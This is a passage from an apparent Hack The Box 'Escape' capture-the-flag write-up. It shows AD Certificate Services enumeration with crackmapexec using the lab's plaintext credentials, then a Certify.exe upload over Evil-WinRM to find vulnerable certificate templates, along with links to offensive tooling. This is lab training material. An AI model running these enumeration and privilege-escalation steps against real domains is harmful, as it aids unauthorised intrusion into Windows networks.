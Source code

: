 # Shell as administrator
### Enumeration
##### Identify ADCS
Active Directory Certificate Services (ADCS). A quick way to check for this is using crackmapexec (and it works as either `sql_svc` or `Ryan.Cooper`):

```bash
crackmapexec ldap $IP -u ryan.cooper -p NuclearMosquito3 -M adcs
crackmapexec ldap $IP -u sql_svc -p REGGIE1234ronnie -M adcs

SMB         10.129.228.253  445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.228.253  636    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie 
ADCS                                                Found PKI Enrollment Server: dc.sequel.htb
ADCS                                                Found CN: sequel-DC-CA
```

##### Identify Vulnerable Template via Certify.exe
Looking back at our initial enumeration output from Nmap we can see a lot of certificate related output. This is a strong indication that there is a Certificate Authority running. 

With ADCS running, the next question is if there are any templates in this ADCS that are insecurely configured. To enumerate further, I’ll upload a copy of Certify by downloading a copy from SharpCollection, and uploading it to Escape:

* https://github.com/ly4k/Certipy

* https://github.com/A1vinSmith/SharpCollection/blob/master/NetFramework_4.7_x64/Certify.exe
* https://github.com/A1vinSmith/Ghostpack-CompiledBinaries
* https://github.com/GhostPack/Certify

* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse
* https://www.thehacker.recipes/ad/movement/ad-cs

```cmd evil-winrm
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> upload /home/alvin/Documents/OSEP/HTB/Windows/Escape/Certify.exe
                                        
Info: Uploading /home/alvin/Documents/OSEP/HTB/Windows/Escape/Certify.exe to C:\Users\Ryan.Cooper\Desktop\Certify.exe
                                        
Data: 17584 bytes of 17584 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> .\Certify.exe find /vulnerable

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
```
